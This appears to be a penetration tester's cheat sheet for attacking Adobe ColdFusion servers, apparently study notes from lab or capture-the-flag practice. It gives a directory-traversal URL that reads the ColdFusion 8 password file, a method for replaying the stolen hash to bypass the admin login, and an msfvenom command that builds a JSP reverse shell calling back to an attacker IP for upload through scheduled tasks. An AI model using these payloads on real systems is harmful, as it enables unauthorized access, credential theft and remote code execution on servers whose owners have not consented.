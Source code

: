 # coldfusion

## Interesting Stuff

```
# identification folders
/CFIDE
/cfdocs

# admin page
/CFIDE/administrator/index.cfm
```

## Admin Page bypass

```
Using https://www.exploit-db.com/exploits/14641
IP/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

Using console > console.log(hex_hmac_sha1(document.loginform.salt.value, '<hash>'));
Using Burp to intercept and using `<console-hash>` as new password.
```

## Upload Shell using GUI

```
Under Debugging & Logging > Scheduled Tasks > Create new task
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.146 LPORT=6969 -o shell.jsp
```

## Arbitary File Upload (unauthenticated)

v8.0.1

```
https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload
```
